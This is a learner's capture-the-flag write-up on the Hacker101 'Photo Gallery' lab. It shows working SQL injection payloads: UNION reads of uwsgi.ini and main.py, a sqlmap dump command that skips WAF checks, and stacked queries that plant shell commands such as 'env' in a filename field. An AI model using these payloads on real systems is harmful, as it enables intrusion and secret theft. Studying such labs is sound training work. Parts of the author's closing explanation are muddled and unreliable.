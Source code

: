 # Hacker101 CTF - Photo Gallery

- CTF Name: Photo Gallery
- Resource: Hacker101 CTF
- Difficulty: Moderate
- Number of Flags: 3

Note::: NO, I won't be posting my found FLAGS, but I will be posting the methods I used. 

<hr>


### Flag0
- Hint: 
 1. Consider how you might build this system yourself. What would the query for fetch look like?
 2. Take a few minutes to consider the state of the union
 3. This application runs on the uwsgi-nginx-flask-docker image
- Acquired By:
 1. First thing I want to do is look at the code and see if anything pops out. Sadly, there are no obvious hints but the link to the pictures looks... odd. It is code that is calling on an id number for each picture. `<img src="fetch?id=2" width="266" height="150">` With these types of inputs I want to try and see what else is there. For this I used ZAP to throw in numbers 1-100. ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/4pdksqbsvvqzgz0rzmlt.png) This sadly didn't produce anything new. But this gave me the idea to try and attack the database from this input point.
 2. For testing the database I need to use some sql. Because the hint mentions something about "the state of the union" I bet it has to do with a union statement so let's try some. For this I will use sqlmap. I am still getting sqlmap so for those that don't know "sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers." (1) Now, because of the third hint I know that I need to be looking for a config file for the uwsgi-nginx-flask-docker image. After some research I find that this is usually a "uqsgi.ini" file so I built a union statement to find this with `fetch?id=4 UNION SELECT 'uwsgi.ini'--` This revealed that there was a "[uwsgi] module = main callable = app " statement that I got back from the server. This tells me that there is a main file so I not want to get that file.
 3. To get the main file I use the same basic union statement and change the uwsgi.ini to main.py. This revealed an odd file about a Magical Image Gallery that had the flag in it. ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/p6vpusdogzpvlkyt5la8.png)
 

### Flag1/Flag2
- Hint: 
 1. I never trust a kitten I can't see
 2. Or a query whose results I can't see, for that matter
- Acquired By: 
 1. First thing I did was look at the site I was just on for the first flag. This page has a lot of information in it about the querys being used for the MySQLdb. `MySQLdb.connect(host="localhost", user="root", password="", db="level5")`, `cur.execute('SELECT id, title FROM albums')`, and `cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))`. This tells me that there is 2 columns called in the albums table, 3 columns in the photos table, and a database called "level5".
 2. As the hint is around a kitten that can't be trusted I bet there is another album or photo to look for. For this I want to use SQLMap cause it is a good tool to sql things. =p This took me a lot of work to really understand. Admittedly, I used another walkthrough but it didn't work the first 10 times so I had to figure it out. What worked for me was this call to sqlmap `python sqlmap.py -u "http://35.227.24.107/d7f2b886cc/fetch?id=1" --method=GET --dump -D level5 -T photos -p id --code=200 --ignore-code=500 --skip-waf --threads=2 -o`(see below for a break down of this statement) This produced a lot of information about its testing but also this lovely output. ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ioc0ijxak0yqvglxab3z.png) That id 3 looks... odd. Lucky, SQLMap offered to decode it for me and I got ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/y9w3ndmsrwmrjqbpq6te.png) ohhh a new file. It looks like it is giving me a hint but I am not quite sure how to get it. I did use someone else's walkthrough and yet again it didn't work for me. Half a day later I got this to work.

Here are the steps I used (see what I learned from this below)
>3. I did try to use the previous UNION statement to view the tmp file but nothing shows up yet. Time to Google again. This I also something that I needed help with. I found the following set of code to be useful...
1. use `http://(domain)/(yourID)/fetch?id=1;%20update%20photos%20set%20filename=%27*%20||%20ls%20./files%20%3Etemp.txt%20%27%20where%20id=3;%20commit;%20--`
2. refresh the home page
3. now use `http://(domain)/(yourID)/fetch?id=1;%20update%20photos%20set%20filename=%27*%20||%20env%20%3Etemp.txt%27%20where%20id=3;%20commit;%20--`
4. refresh home
5. use the UNION statement with 'temp.txt` and poof. allllll the flags are found. ![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/5mcm7no97oqokdvzmw21.png) 



### Flag2
- Hint: 
 1. That method of finding the size of an album seems suspicious
 2. Stacked queries rarely work. But when they do, make absolutely sure that you're committed
 3. Be aware of your environment
- Acquired By: 
See previous flag as it was already found
sneaky sneaky
![](https://media.giphy.com/media/9uuG5Vd76Zcek/giphy.gif)

### Learned
SQLMap. The statement that I used was:
 `python sqlmap.py -u "http://35.227.24.107/d7f2b886cc/fetch?id=1" --method=GET --dump -D level5 -T photos -p id --code=200 --ignore-code=500 --skip-waf --threads=2 -o` It breaks down into this....
`python sqlmap.py` - start sqlmap
`-u` - url input to follow
"http://(domain)/(uniquiID)/fetch?id=1" -  the url to attack
`--method=GET` - Will run with a GET HTTP header
`--dump` - Will dump the output into a directory at the end
`-D level5` - The name of the Database to attack
`-T photos` - The name of the Table in the database to attack
`-p id` - The Parameter to attack
`--code=200 --ignore-code=500` - This is looking for status codes to accept and ignore
`--skip-waf` - To skip heuristic detection of WAF/IPS protection
`--threads=2` - Max number of concurrent HTTP(s) requests (default 1)
`-o` - Turn on all optimization switches

SQL Statements:
The series of statements is renaming files. The first one renames the image file to the tmp file so that when it loads you will be able to see a list of other files. 
Then the image is renamed again so that now when it loads the contents of the 'requirements.txt' files is loaded with the flags.



<hr>

Happy Hacking
![](https://media.giphy.com/media/l3vRmVv5P01I5NDAA/giphy.gif)

### Resources
1. https://tools.kali.org/vulnerability-analysis/sqlmap
2. https://uwsgi-docs.readthedocs.io/en/latest/Configuration.html#ini-files



###### Please Note: that I am still learning and if something that I have stated is incorrect please let me know. I would love to learn more about what I may not understand fully.
